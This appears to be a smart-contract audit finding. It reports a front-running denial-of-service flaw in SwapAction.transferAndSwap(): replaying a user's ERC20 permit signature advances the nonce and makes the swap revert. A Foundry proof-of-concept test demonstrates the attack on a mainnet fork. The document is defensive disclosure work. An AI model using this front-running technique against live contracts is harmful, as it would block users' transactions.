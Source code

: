 ## [M] DOS attack to `SwapAction.transferAndSwap()` when using  an ERC20 permit `transferFrom`

`SwapAction.transferAndSwap()` will perform a `_transferFrom` to transfer the input tokens to the user proxy and then perform a swap via a router. When it uses an ERC20 permit `transferFrom`, an attacker can extract the `v, r, s` from the `safePermit()` call and frontruns it with a direct `safePermit()` with the same arguments. As a result, `SwapAction.transferAndSwap()` will fail due to the advancing of nonce. Effectively, this is a DOS attack.

### Proof of Concept

First, `SwapAction.transferAndSwap()` will perform a `_transferFrom` to transfer the input tokens to the user proxy and then perform a swap via a router.

<relative_path_091409:src/proxy/SwapAction.sol#L93C14-L103>

Second, `_transferFrom` has three cases: `permit2`, `permit` or standard `transferFrom`:

<relative_path_091409:src/proxy/TransferAction.sol#L46-L82>

The vulnerability lies in the second case, there are two parts:
1. Call `token.safePermit()`;
2. Call `token.safeTransferFrom`.

The first component will set the proper allowance when successful. The problem is that an attacker can observe the mempool and extract the `v, r, s` from the `safePermit()` call and frontruns it with a direct `safePermit()` with the same arguments. As a result, the `_transferFrom` and thus `SwapAction.transferAndSwap()` will fail due to the advancement of the nonce.

[This permit DOS attack](<https://www.trust-security.xyz/post/permission-denied>) has been reported by Immunifi earlier.

The following POC confirms the finding:

1. We simulate the front-running by calling `USDC.SafePermit()` right before the call of `userProxy.execute()`.
2. The result shows we have the right allowance but `SwapAction.transferAndSwap()`  fails due to wrong verification of signature since the nonce has increased by 1.

Run `forge test --match-test testSwapDOS -vv`:

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import {Test} from "forge-std/Test.sol";
import "forge-std/console2.sol";

import {SafeERC20} from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
import {IERC20Permit} from "@openzeppelin/contracts/token/ERC20/extensions/draft-IERC20Permit.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {SafeERC20} from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";


import {PRBProxyRegistry} from "prb-proxy/PRBProxyRegistry.sol";
import {PRBProxy} from "prb-proxy/PRBProxy.sol";

import {ISignatureTransfer} from "permit2/interfaces/ISignatureTransfer.sol";

import {IUniswapV3Router, decodeLastToken, UniswapV3Router_decodeLastToken_invalidPath} from "../../vendor/IUniswapV3Router.sol";
import {IVault as IBalancerVault} from "../../vendor/IBalancerVault.sol";

import {PermitMaker} from "../utils/PermitMaker.sol";

import {ApprovalType, PermitParams} from "../../proxy/TransferAction.sol";
import {SwapAction, SwapParams, SwapType, SwapProtocol} from "../../proxy/SwapAction.sol";
import {IPActionAddRemoveLiqV3} from "pendle/interfaces/IPActionAddRemoveLiqV3.sol";



contract SwapActionTest is Test {
    using SafeERC20 for ERC20;
    using SafeERC20 for IERC20Permit;

    SwapAction internal swapAction;

    // user and permit2 related variables
    PRBProxy internal userProxy;
    PRBProxy internal bobProxy;
    uint256 internal userPk;
    address internal user;
    address Bob = makeAddr("Bob");
    uint256 internal constant NONCE = 0;

    // swap protocols
    address internal constant ONE_INCH = 0x1111111254EEB25477B68fb85Ed929f73A960582;
    address internal constant BALANCER_VAULT = 0xBA12222222228d8Ba445958a75a0704d566BF2C8;
    address internal constant UNISWAP_V3 = 0xE592427A0AEce92De3Edee1F18E0157C05861564;
    address internal constant PENDLE_ROUTER= 0x00000000005BBB0EF59571E58418F9a4357b68A0;

    // Permit2
    ISignatureTransfer internal constant permit2 = ISignatureTransfer(0x000000000022D473030F116dDEE9F6B43aC78BA3);
    // https://etherscan.io/address/0x000000000022d473030f116ddee9f6b43ac78ba3#code

    // tokens
    ERC20 internal constant DAI = ERC20(0x6B175474E89094C44Da98b954EedeAC495271d0F);
    ERC20 internal constant USDC = ERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);
    ERC20 internal constant WETH = ERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    ERC20 internal constant BOND = ERC20(0x0391D2021f89DC339F60Fff84546EA23E337750f);
    ERC20 internal constant BAL = ERC20(0xba100000625a3754423978a60c9317c58a424e3D);

    // Chainlink oracles
    IPriceFeed internal constant DAI_ETH_FEED = IPriceFeed(0x773616E4d11A78F511299002da57A0a94577F1f4); // DAI:ETH
    IPriceFeed internal constant USDC_ETH_FEED = IPriceFeed(0x986b5E1e1755e3C2440e960477f25201B0a8bbD4); // USDC:ETH
    IPriceFeed internal constant BAL_USD_FEED = IPriceFeed(0xdF2917806E30300537aEB49A7663062F4d1F2b5F); // BAL:USD

    // uni v3
    IUniswapV3Router univ3Router = IUniswapV3Router(UNISWAP_V3);
    bytes internal constant DAI_USDC_PATH = abi.encodePacked(address(DAI), uint24(100), address(USDC));
    bytes internal constant DAI_WETH_BOND_PATH =
        abi.encodePacked(address(DAI), uint24(3000), address(WETH), uint24(3000), address(BOND));
    bytes internal constant DAI_WETH_USDC_PATH =
        abi.encodePacked(address(DAI), uint24(3000), address(WETH), uint24(3000), address(USDC));

    // Balancer
    bytes32 internal constant wethDaiPoolId = 0x0b09dea16768f0799065c475be02919503cb2a3500020000000000000000001a;
    bytes32 internal constant balWethPoolId = 0x5c6ee304399dbdb9c8ef030ab642b10820db8f56000200000000000000000014;
    // USDC, DAI, USDT StablePool
    bytes32 internal constant balancerStablePoolId = 0x06df3b2bbb68adc8b0e302443692037ed9f91b42000000000000000000000063;
    IBalancerVault internal constant balancerVault = IBalancerVault(BALANCER_VAULT);

    function setUp() public {
        vm.createSelectFork(vm.rpcUrl("mainnet"), 17055414); // 15/04/2023 20:43:00 UTC

        swapAction = new SwapAction(balancerVault, univ3Router, IPActionAddRemoveLiqV3(PENDLE_ROUTER));

        userPk = 0x12341234;
        user = vm.addr(userPk);

        PRBProxyRegistry prbProxyRegistry = new PRBProxyRegistry();                         // 1
        userProxy = PRBProxy(payable(address(prbProxyRegistry.deployFor(user))));
        console2.log("a userProxy has been created for user: ", address(userProxy));

        bobProxy = PRBProxy(payable(address(prbProxyRegistry.deployFor(Bob))));
        console2.log("a userProxy has been created for Bob: ", address(bobProxy));

        // set allowance for permit2 transfers
        vm.startPrank(user);
        DAI.approve(address(permit2), type(uint256).max);        // permi2 will verify signature and move funds
        USDC.approve(address(permit2), type(uint256).max);        // everybody gives permit2 approval first, and then enforce security via permit2
        vm.stopPrank();

        vm.startPrank(Bob);
        DAI.approve(address(permit2), type(uint256).max);        // permi2 will verify signature and move funds
        USDC.approve(address(permit2), type(uint256).max);        // everybody gives permit2 approval first, and then enforce security via permit2
        vm.stopPrank();

        vm.label(address(WETH), "WETH");
        vm.label(address(USDC), "USDC");
        vm.label(address(DAI), "DAI");
        vm.label(address(BOND), "BOND");
        vm.label(address(permit2), "permit2");
        vm.label(address(userProxy), "userProxy");
        vm.label(address(user), "user");
    }


    function printBalances(address a, string memory name) public{
        console2.log("\n =================================================");
        console2.log("Balances for ", name);
        console2.log("DAI balance: ", DAI.balanceOf(a));
        console2.log("USDC token balance: ", USDC.balanceOf(a));
        console2.log("BOND token balance: ", BOND.balanceOf(a));
        console2.log("=================================================\n ");
    }

    function testSwapDOS() public {
        console2.log("\n \n swap3---------------------------------------------");   // usdc -> DAI
        uint256 amountOut = 1_000 * 1e18; // amount out of DAI we expect
        uint256 amountInMax = (amountOut * 102) / 100e12; // allow 2% slippage
        deal(address(USDC), user, amountInMax);

        printBalances(user, "user");


        // get permit signature
        uint256 deadline = block.timestamp + 100;
        (uint8 v, bytes32 r, bytes32 s) = PermitMaker.getPermitTransferFromSignature(
            address(USDC),
            address(userProxy),           // spender of the permit
            amountInMax,           // approval amount
            NONCE,
            deadline,
            userPk
        );

        PermitParams memory permitParams = PermitParams({
            approvalType: ApprovalType.PERMIT,
            approvalAmount: amountInMax,
            nonce: NONCE,
            deadline: deadline,
            v: v,
            r: r,
            s: s
        });

        // construct swap params
        SwapParams memory swapParams = SwapParams({
            swapProtocol: SwapProtocol.UNIV3,
            swapType: SwapType.EXACT_OUT,
            assetIn: address(USDC),
            amount: amountOut,
            limit: amountInMax,
            recipient: user,
            deadline: deadline,
            args: DAI_USDC_PATH
        });

        console2.log("user: ", user);
        console2.log("userProxy: ", address(userProxy));
        console2.log("approvalAmount: ", amountInMax);
        console2.log("deadline: ", deadline);

        console2.log("allowance: ", USDC.allowance(user, address(userProxy)));




        console2.log("USDC: ", address(USDC));
        // simulate front-running of calling safePermit()
        IERC20Permit(address(USDC)).safePermit(
                user,
                address(userProxy),  // spender
                amountInMax,
                deadline,
                v,
                r,
                s
            );

        console2.log("allowance: ", USDC.allowance(user, address(userProxy)));



        vm.prank(user);
        vm.expectRevert("EIP2612: invalid signature");
        bytes memory response = userProxy.execute(
            address(swapAction),
            abi.encodeWithSelector(swapAction.transferAndSwap.selector, user, permitParams, swapParams)
        );
        // uint256 amountIn = abi.decode(response, (uint256));

    }
}
```






